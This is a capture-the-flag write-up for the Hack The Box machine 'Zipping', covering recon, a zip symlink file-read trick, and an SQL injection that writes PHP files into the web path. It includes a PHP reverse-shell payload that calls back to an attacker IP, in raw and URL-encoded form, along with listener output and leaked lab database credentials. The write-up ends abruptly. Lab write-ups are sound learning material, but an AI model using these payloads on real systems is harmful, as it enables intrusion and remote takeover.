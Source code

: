 # #1 Introduction
![image](https://github.com/Mate0r/app.hackthebock.com/assets/94843357/4cf7f881-56aa-4262-a3b0-2f436a100a2e)

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx zipping.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- zipping.htb
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)

by fuzzing the website with feroxbuster, we identify all these urls : 
```
http://zipping.htb/upload.php \
http://zipping.htb/shop \
http://zipping.htb/uploads \
http://zipping.htb/shop/functions.php \
http://zipping.htb/shop/home.php \
http://zipping.htb/index.php \
http://zipping.htb/shop/placeorder.php \
http://zipping.htb/shop/product.php \
http://zipping.htb/shop/products.php \
http://zipping.htb/shop/cart.php \
```

we found in upload.php that we can upload zip and use a vulnerability that allow us to arbitrary read files on the server
```
ln -s /var/www/html/shop/product.php cv.pdf
zip cv.zip cv.pdf
```

by downloading the files of the shop application, we found there is some sqli \
we can use this payload to bypass the preg_match function (https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match-.) \
in this payload, we will write a file by mysql (so we have user mysql) that can write in /var/lib/mysql/
```

';select '<?php phpinfo(); ?>' into outfile '/var/lib/mysql/test.php';--2
```

we encode this for url 
```
%0A%27%3Bselect%20%27%3C%3Fphp%20phpinfo%28%29%3B%20%3F%3E%27%20into%20outfile%20%27%2Fvar%2Flib%2Fmysql%2Ftest.php%27%3B--2
```

so we have the final url that should create a test.php file that give us a phpinfo in the /shop/ directory
```
http://zipping.htb/shop/index.php?page=product&id=%0A%27%3Bselect%20%27%3C%3Fphp%20phpinfo%28%29%3B%20%3F%3E%27%20into%20outfile%20%27%2Fvar%2Flib%2Fmysql%2Ftest.php%27%3B--2
```

<img width="1160" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/ab6732bf-14aa-4d99-8058-b584a0db0794">


so let's now do a reverse shell 
```

';select "<?php $sock=fsockopen('10.10.14.186',6666);$proc=proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>" into outfile "/var/lib/mysql/revshell.php";--2
```

```
http://zipping.htb/shop/index.php?page=product&id=%0A%27%3Bselect%20%22%3C%3Fphp%20%24sock%3Dfsockopen%28%2710.10.14.186%27%2C6666%29%3B%24proc%3Dproc_open%28%27%2Fbin%2Fsh%20-i%27%2C%20array%280%3D%3E%24sock%2C%201%3D%3E%24sock%2C%202%3D%3E%24sock%29%2C%24pipes%29%3B%20%3F%3E%22%20into%20outfile%20%22%2Fvar%2Flib%2Fmysql%2Frevshell.php%22%3B--2
```


we got a reverse shell now
```
┌──(parallels㉿kali)-[~/hacking/htb/Zipping/files]
└─$ nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.14.186] from (UNKNOWN) [10.10.11.229] 48198
/bin/sh: 0: can't access tty; job control turned off
$
```

we found we have some authorizations with sudo
```
rektsu@zipping:/usr/bin$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

St0ckM4nager


$DATABASE_HOST = 'localhost';
    $DATABASE_USER = 'root';
    $DATABASE_PASS = 'MySQL_P@ssw0rd!';
    $DATABASE_NAME = 'zipping';
